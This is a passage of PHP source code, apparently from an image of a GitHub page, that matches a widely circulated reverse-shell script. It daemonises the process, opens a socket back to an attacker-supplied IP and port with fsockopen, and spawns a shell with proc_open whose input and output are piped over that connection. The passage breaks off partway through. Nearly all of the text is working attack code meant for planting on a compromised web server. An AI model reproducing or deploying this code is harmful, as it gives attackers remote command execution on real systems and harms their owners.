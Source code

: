 ```php
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
```